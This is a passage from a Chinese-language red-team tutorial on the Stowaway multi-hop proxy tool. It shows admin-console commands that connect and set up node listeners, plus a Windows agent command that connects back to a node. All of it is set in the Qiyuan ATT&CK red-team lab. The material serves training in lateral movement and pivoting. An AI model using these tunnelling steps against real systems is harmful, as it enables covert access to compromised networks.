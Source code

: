 ```plaintext
(admin) >> use 0
(node 0) >> connect 192.168.52.30:10000
```

节点内反向连接，或者节点开启端口监听。

```plaintext
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 192.168.93.20:20001
[*] Waiting for response......
[*] Node is listening on 192.168.93.20:20001
(node 1) >>
[*] New node come! Node id is 2
```

客户端连接到节点。

```plaintext
C:\>windows_x64_agent.exe -c 192.168.93.20:20001 -s test
```

Stowaway 缺点：实战环境中拿下目标机器后，想用它做服务端，可惜没有 screen、tmux 这种终端管理工具的情况下不能在后台运行，很不方便。

这里使用[【启元】ATT&CK 红队七 WHOAMI Penetration](http://vulnstack.qiyuanxuetang.net/vuln/detail/9/)进行多层代理专项训练。

![启元】ATT&CK 红队七 WHOAMI Penetration 靶场架构图.png](assets/1698895429-0f509580c323463d7ca6d7f1daebe74b.png)

由于 DMZ 主机 IP1 是桥接宿主机，IP 根据每台机器 DHCP 动态获取会有不同，以实际为准。

*建立第一层隧道*
